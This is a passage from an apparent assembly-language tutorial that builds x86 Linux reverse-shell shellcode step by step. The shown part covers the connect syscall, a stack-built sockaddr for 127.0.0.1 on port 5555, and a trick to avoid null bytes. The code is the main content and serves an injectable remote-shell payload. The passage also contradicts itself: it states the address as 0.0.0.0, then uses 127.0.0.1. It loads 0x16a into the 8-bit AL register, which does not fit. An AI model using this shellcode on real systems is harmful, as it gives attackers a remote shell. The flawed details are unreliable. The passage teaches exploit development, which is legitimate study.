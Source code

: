 ```nasm
    xor eax, eax
    mov al, 0x16a
```

Now we need to consult `man 2 connect` to figure out the structure of the arguments this syscall requires. The result is `int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);`

These arguments can be summarized at a high-level as follows: 
+ `int sockfd` -- this is a reference to the socket we just created, this is why we moved EAX into EDI 
+ `const struct sockaddr *addr` -- this is a pointer to the location on the stack of the sockaddr struct we are going to create
+ `socklen_t addrlen` -- this is the length of the address which the `/usr/include/linux/in.h` file tells us is 16

Let's start with satisfying the `int sockfd` argument. 

```nasm
    mov ebx, edi
```

Now, let's start creating our sockaddr struct on the stack. A [sockets programming tutorial](http://home.iitk.ac.in/~chebrolu/scourse/slides/sockets-tutorial.pdf) tells us that the sockaddr_in struct for the connect syscall consists of the following 4 components:
+ AF_INET
+ Port Number
+ Internet address (IP)
+ 0

Let's start moving these values into the registers. Our port number will be 5555 and our internet address will be 0.0.0.0

Because the stack grows from High to Low, we will have to place these arguments onto the stack in reverse order. We will also have to put our port number in Little Endian format, so instead of `0x15b3`, we will place `0xb315` onto the stack. We will also have to push our IP address onto the stack in reverse order so instead of `127.0.0.1`, we will require `1.0.0.127`. First let's push our 0 onto the stack with a cleared out ECX.

```nasm
    xor ecx, ecx
    push ecx
```

Now it's time to confront the NULL BYTE demon. We want to push `1.0.0.127` onto the stack but we cannot call 0's explicitly as this will result in NULL BYTEs in our shellcode. A work around can be to move `2.1.1.128` into a register and then subtract `1.1.1.1` from the register to end up at our desired `1.0.0.127`. Let's do that now.

```nasm
    mov ecx, 0x02010180
    sub ecx, 0x01010101
```

Now we push ECX onto the stack and continue on as we did in Assignment #1 for pretty much the rest of our assembly code. 

```nasm
    push ecx
    push word 0xb315
    push word 0x02
```
